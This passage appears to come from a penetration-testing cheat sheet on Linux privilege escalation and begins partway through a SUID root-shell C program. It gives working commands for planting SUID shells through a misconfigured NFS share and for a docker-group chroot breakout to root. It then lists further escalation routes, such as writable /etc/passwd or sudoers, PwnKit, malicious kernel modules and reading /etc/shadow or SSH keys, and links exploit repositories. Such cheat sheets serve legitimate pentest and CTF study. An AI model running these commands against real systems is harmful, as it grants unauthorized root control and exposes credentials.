        setresgid(0,0,0);
        system("/bin/bash");
    }


    # gcc -o rootsh rootsh.c
    # cp rootsh /tmp/mount
    # chmod +s /tmp/mount/rootsh

Now, back on the remote host, execute the executable to spawn a root shell:


    $ /tmp/rootsh
    #

Alternatively, on the remote host, copy the /bin/bash or /bin/sh binary to the NFS directory:


    $ cp /bin/bash /tmp

On your local machine, after mounting the NFS share, create new copies of the files (or chown them to root) and set the SUID/SGUID bits:


    # cp bash rootbash
    # chmod +s rootbash

    OR

    # chown root:root bash
    # chmod +s bash

Now, back on the remote host, run the file. For bash / sh, use the -p command line option to preserve the SUID/SGID (otherwise shell will simply spawn as your own user).


    $ /tmp/rootbash -p
    #

    OR

    $ /tmp/bash -p
    #
</details>
<details>
<summary>Additional Techniques</summary>
 <br> 
1. Environment Variables
Techniques using:

LD_LIBRARY_PATH

LD_AUDIT

LD_DEBUG

Similar to LD_PRELOAD but often overlooked.

2. Scheduled Tasks / at Command
Like cron, but via atd (one-time jobs).

If a user can create at jobs, they can escalate.

3. Docker / LXC Breakouts
If user is in docker group:

bash

    docker run -v /:/mnt --rm -it alpine chroot /mnt sh
Also applies to lxc containers if misconfigured.

4. Exposed Sensitive Files
World-readable private keys:

/etc/shadow

.ssh/id_rsa

.bash_history with creds

5. SetUID Scripts
Dangerous if interpreted by /bin/bash or Python.

Can be bypassed using race conditions or custom interpreters.

6. Abusing passwd / /etc/sudoers
Writable /etc/passwd, /etc/shadow, or /etc/sudoers.

Add a root user or give self sudo.

7. dbus / polkit Exploits
Real-world example: CVE-2021-4034 (PwnKit).

Can escalate from low-priv to root if exploitable version is present.

8. Kernel Modules (if in kmod, insmod, etc.)
If user can load kernel modules:

Write a rootkit or malicious kernel module for privilege escalation.

9. Services Running as Root
If user can edit config or scripts executed by a service (e.g., web server, backup agent), they may hijack execution.

10. User Namespace Escapes (Namespace PrivEsc)
Exploiting the way Linux handles namespaces in containers.

Useful in CTFs and container breakouts.

11. PAM Misconfiguration
Abusing PAM to run arbitrary code on login or via screen savers.

12. Mount Tricks
Mounting system folders over writable mount points.
Example: mount --bind to tamper with /etc/passwd.
 </details>
##########################
Linux Privilege Escalation
##########################

* https://github.com/mubix/post-exploitation
* https://github.com/spencerdodd/kernelpop
* https://github.com/SecWiki/linux-kernel-exploits
* https://www.google.com/search?q=kernel+exploits
* https://github.com/NullArray/RootHelper
* https://greysec.net/showthread.php?tid=1355
* https://github.com/DominicBreuker/pspy
* https://touhidshaikh.com/blog/?p=790
* http://blog.securelayer7.net/abusing-sudo-advance-linux-privilege-escalation/
* https://gtfobins.github.io/
* https://guif.re/linuxeop
* https://github.com/sagishahar/lpeworkshop
* https://github.com/codingo/OSCP-2
* https://infamoussyn.wordpress.com/2014/07/11/gaining-a-root-shell-using-mysql-user-defined-functions-and-setuid-binaries/
* https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/
* https://docs.ansible.com/ansible/latest/user_guide/become.html
* https://payatu.com/guide-linux-privilege-escalation/
* https://github.com/Arrexel/phpbash
